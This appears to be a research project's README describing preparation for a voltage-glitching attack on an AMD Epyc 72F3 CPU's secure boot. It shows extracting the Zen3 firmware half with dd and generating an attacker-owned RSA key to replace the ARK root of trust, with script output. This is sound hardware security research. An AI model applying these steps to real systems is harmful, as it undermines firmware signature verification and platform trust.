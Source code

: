 # Determining the Glitch Parameters

In this document we describe the process of selecting the attack parameters for an *Epyc 72F3 CPU* in a *Supermirco H11DSU-iN* motherboard.

## Firmware Image

Since the *Supermicro H11DSU-iN* motherboard does not support Zen3 CPUs, we use a Firmware image from the [*Supermicro H12SSL-i*](https://www.supermicro.com/en/products/motherboard/H12SSL-i) motherboard in our experiments.
We downloaded the file
```
roms/H12SSL_BIOS_R2_0_BMC_R1_00_32_SUM_2_5_2-p1.zip
```
and extracted the firmware image:
```
roms/BIOS_H12SSL-1B95_20210222_2.0_STDsp.bin
```
The second half of this firmware image contains the firmware entries used by the Zen3 CPU.
We copy these 16 Mebibytes to `roms/original_firmware.bin`:
```
$ dd if=roms/BIOS_H12SSL-1B95_20210222_2.0_STDsp.bin bs=1M skip=16 \
count=16 of=roms/original_firmware.bin
```

### Generating a Key
To carry out our attack we need to generate our own RSA key to act as the ARK.
We do this using the `make_key_entry.py` script:
```
$ python make_key_entry.py OWN_KEY
generated public key hash:
fa555c8f 1500a5e2 a8e93c47 5d4fb46e 8bc0acc7 7c349ee2 8015319e b27728cc
is hash okay? [y/N]:
generated public key hash:
b3df03a8 cf51abc4 2c18ad6c 8a52e204 e3b6b567 3dae3cd4 d2f1f64f 1e5ec410
is hash okay? [y/N]:
generated public key hash:
62f8d79c 6f069d9a de7e1164 fcf07a41 17336a64 b1979621 9e68ad94 7df18176
is hash okay? [y/N]: n
generated public key hash:
e731757e d3545dae 551eeb84 6356f54b 17b0de5b 917dcaa4 e0722ba8 133fa396
is hash okay? [y/N]: y
Wrote public key entry to: OWN_KEY.ENTRY
Wrote private key to: OWN_KEY.ID
```
The python package `cryptography` must be installed for this script.

**Note:** We assume that to exploit the Epyc Zen1 bootloader it is necessary that the first word of the key hash has a zero as MSB (in little endian encoding).
Even though we haven't rigorously confirmed this, we still choose our keys according to this requirement.
